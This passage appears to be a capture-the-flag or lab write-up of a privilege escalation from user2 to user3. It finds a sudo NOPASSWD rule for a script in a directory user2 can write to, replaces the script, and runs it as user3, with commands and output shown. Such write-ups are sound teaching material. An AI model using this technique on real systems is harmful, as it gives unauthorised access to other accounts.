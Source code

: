 ### Getting access to user3
When doing `ls -la` we can see the following output
```
drwxr-xr-x 1 user2 user2 4096 Mar 15 10:57 .
drwxr-xr-x 1 root  root  4096 Jan 25 20:57 ..
-rw-r--r-- 1 user2 user2  220 Jan 25 20:57 .bash_logout
-rw-r--r-- 1 user2 user2 3771 Jan 25 20:57 .bashrc
drwx------ 2 user2 user2 4096 Mar 15 10:57 .cache
drwxrwxr-x 3 user2 user2 4096 Mar 15 10:55 .local
-rw-r--r-- 1 user2 user2  807 Jan 25 20:57 .profile
drwxrwxr-x 2 user2 user2 4096 Mar 15 10:56 .ssh
-rwxrwxr-x 1 root  root    58 Jan 25 20:56 runMe.sh
```

runMe.sh is owned by root and running it prints out

```
If only I could be something useful...
```

After looking into cheatsheets of privilege escalation I find 
```
sudo -l
```

and the output as user2 is

```
Matching Defaults entries for user2 on ca0a1536712e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User user2 may run the following commands on ca0a1536712e:
    (user3) NOPASSWD: /home/user2/runMe.sh
```

This means that we can run runMe.sh file as user3 without needing password.

since we own the folder runMe.sh is in, we can delete the file and create our own
shell file.

```
rm runMe.sh
echo "id" > runMe.sh
chmod +x runMe.sh
```

we can run runMe.sh as user3 using following command 

```
sudo -u user3 /home/user2/runMe.sh
```

and the output is 

```
uid=1003(user3) gid=1003(user3) groups=1003(user3),100(users)
```
